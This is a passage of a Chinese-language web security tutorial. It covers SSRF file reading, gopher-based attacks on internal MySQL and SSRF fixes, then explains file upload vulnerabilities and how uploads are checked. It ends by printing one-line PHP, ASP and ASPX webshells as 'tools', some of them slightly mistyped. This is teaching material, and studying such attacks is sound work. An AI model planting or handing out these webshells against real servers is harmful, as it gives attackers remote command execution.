 - **读取服务器文件**

  - file_get_concat类型ssrf

    ![img](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/e7d34b59-0a30-4f70-a8b7-682c02c13c72.png)

  - curl类型ssrf

    ![img](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/3b1d93cb-5eca-498e-8221-ca64b011cb68.png)

- **Goper攻击内网mysql（无密码）**

  ssrf可以结合gopher协议攻击内网各种服务，如sql注入、struct2、redis等。这里我们以攻击内网空密码的mysql为例进行讲解。



#### SSRF漏洞修复建议

- 限制请求的端口只能为Web端口，只允许访问HTTP和HTTPS的请求
- 限制不能访问内网的IP，以防止对内网进行攻击
- 屏蔽返回的详细信息





### 文件上传漏洞

**文件上传漏洞**是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。

**原理：**当服务器未对上传的文件进行严格的验证和处理时,如果上传的目标目录没有限制文件执行权限，导致所上传的动态文件可以被正常访问执行，就会造成文件上传漏洞。

文件上传漏洞的**必需条件**：

- 上传的脚本文件能够被Web容器解释执行
- 用户能够从Web上访问到此文件

**检测流程**

常规的文件上传检测流程

1. 前端用Js代码对上传的文件进行检测。
2. 服务器使用WAF对文件内容进行检测。
3. 后端代码进一步对文件类型及内容进行检测。
4. 利用服务器上的防御软件对文件内容进行检测。



#### 工具准备

- 一句话木马

  - PHP

    ```php
    <?php @eval($_post['pass']);?>
    ```

  - asp

    ```asp
    <%eval request ("pass")%>
    ```

  - aspx

    ```aspx
    <%@ Page Language="Jscript"%>< %eval(Request.Item["pass"],"unsafe");%>
    ```

- 图片马

